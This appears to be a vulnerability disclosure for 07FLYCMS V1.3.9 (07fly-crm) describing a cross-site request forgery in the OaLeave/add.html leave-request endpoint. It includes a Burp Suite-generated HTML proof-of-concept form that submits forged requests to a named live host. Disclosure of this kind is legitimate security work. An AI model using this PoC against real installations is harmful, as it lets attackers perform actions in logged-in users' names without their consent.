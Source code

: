 target:https://github.com/lingqifei/07fly-crm version: V1.3.9

07FLYCMS V1.3.9 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component http://erp.07fly.net:80/oa/OaLeave/add.html

POC:

<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://erp.07fly.net:80/oa/OaLeave/add.html" method="POST">
      <input type="hidden" name="type" value="1" />
<input type="hidden" name="start_time" value="2024-10-17+21%3A06%3A00" />
<input type="hidden" name="end_time" value="" />
<input type="hidden" name="reason" value="cs" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

